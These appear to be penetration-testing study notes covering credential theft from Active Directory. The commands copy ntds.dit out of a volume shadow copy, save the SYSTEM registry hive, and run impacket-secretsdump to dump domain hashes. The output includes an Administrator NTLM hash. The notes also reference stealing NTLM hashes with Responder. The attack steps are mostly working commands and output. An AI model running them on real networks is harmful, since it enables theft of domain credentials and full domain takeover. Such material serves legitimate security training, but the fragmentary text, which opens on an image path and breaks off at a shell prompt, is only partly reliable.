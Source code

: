 Once the snapshot has been taken successfully, we should take note of the shadow copy device name. We'll now copy the whole AD Database from the shadow copy to the **C:** drive root folder by specifying the shadow copy device name and append the full **ntds.dit** path.

```shell
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```

As a last ingredient, to correctly extract the content of **ntds.dit**, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the **reg** utility and the **save** argument.

```shell
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```

Once the two **.bak** files are moved to our Kali machine, we can continue extracting the credential materials with the _secretsdump_ tool from the impacket suite. We'll supply the ntds database and the system hive via **-ntds** and **-system**, respectively along with the **LOCAL** keyword to parse the files locally.

```shell
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
```
#### Stealing NTLM Hash with Responder
[[2. Attacking AD#Stealing NTLM hashes with Responder]]

[192.168.50.73]: PS C:\Users\jen\Documents> whoami